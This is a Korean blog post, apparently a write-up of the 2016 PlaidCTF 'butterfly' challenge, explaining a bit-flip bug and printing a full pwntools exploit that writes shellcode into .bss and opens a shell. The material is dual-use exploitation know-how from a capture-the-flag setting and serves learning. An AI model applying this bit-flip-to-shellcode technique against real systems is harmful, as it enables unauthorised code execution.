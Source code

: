 ```yaml
---
layout: post
title: "2016 PlaidCTF butterfly Write up"
excerpt: "bit flip을 이용한 참신한 문제"
date: 2020-05-025
categories: [system, ctf]
comments: true
---
```




연구실 과제를 하느라 ctf 문제풀이가 많이 밀렸다. 그래서 이번엔 전부터 풀어보고 싶었던 butterfly문제를 가져왔다. 뭔가 좀 참신한 느낌인 것 같다. 문제를 푸는데 다른 문제들보다 오래 걸린 것 같다.



binary :

![but1](/img/but1.png)

stack canary가 적용되어 있으며, amd64 아키텍처이다. (페이로드에서 이거 설정안해서 계속 못풀었다.)

main.c :

![but2](/img/but2.png)

코드를 보면 fgets로 50byte를 입력받고, strtol함수로 정수값으로 전환 > shift 연산자를 이용해서 v4의 마지막 3비트가 right shift된다. 그리고 mprotect가 있는데 처음에는 v7의 권한을 rwx로 주었다가 이후엔 r-x로 바꾼다. 

exploit vector : 

![but3](/img/but3.png)

이 부분이 중요한 것 같다. 에필로그 부분인데 +216에서 add rsp,0x48을 수정하면 ret를 가지고 놀 것  같다. 

exploit :

```python
from pwn import *
 
context(arch="amd64")

p = process("./butterfly")
e = ELF("./butterfly")

tar_addr = 0x400860 + 3
tmp = (tar_addr << 3) + 6

p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))

def first(addr,data):
    for i in range(8):
        if data & (1 << i):
            tmp = (addr << 3) + i
            p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
            p.sendline(str(tmp).ljust(40) + p64(e.symbols['main']))
 
def write(where,pay):
    for a,b in enumerate(pay):
	first(where + a, u8(b))
 
write(e.bss(100),asm(shellcraft.sh()))

p.recvuntil("THOU ART GOD, WHITHER CASTEST THY COSMIC RAY?\n")
p.sendline(str(e.bss(99) << 3).ljust(40) + p64(e.bss(100)))

p.clean()

p.interactive()

```

문제를 풀고나서 여러가지 풀이들을 봤는데 _libc_csu_init을 이용한 풀이도 재미있을 것 같다. 다시 한번 복습해볼만한 문제였던 것 같다. (난 아직 초보라 다시 봐야한다.)


